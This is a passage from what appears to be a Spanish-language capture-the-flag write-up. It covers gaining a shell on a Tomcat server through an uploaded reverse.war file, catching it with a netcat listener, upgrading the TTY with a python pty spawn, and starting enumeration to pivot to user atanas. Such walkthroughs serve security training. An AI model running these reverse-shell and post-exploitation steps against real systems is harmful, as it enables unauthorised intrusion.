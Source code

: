 subimos el fichero en la web.

Nos ponemos en escucha con netcat por el puerto 443

```bash
nc -nlvp 443
```

Pinchamos el fichero reverse.war y vemos que ya hemos ganado acceso al systema

```bash
whoami

> tomcat
```

### Tratamiento de la TTY {-}

```bash
which python
python -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Dandole a 
```bash
 cd /home 
```
 vemos que hay dos usuarios tomcat y atanas

```bash
find \-name user.txt 2>/dev/null | xargs cat
```

Vemos que la flag esta en el directorio **atanas** y que no podemos leer la flag

### User pivoting al usuario atanas {-}

```bash
cd tomcat
ls -la
cd to_archive
ls -la
cd pentest_data
ls -la
file *
```
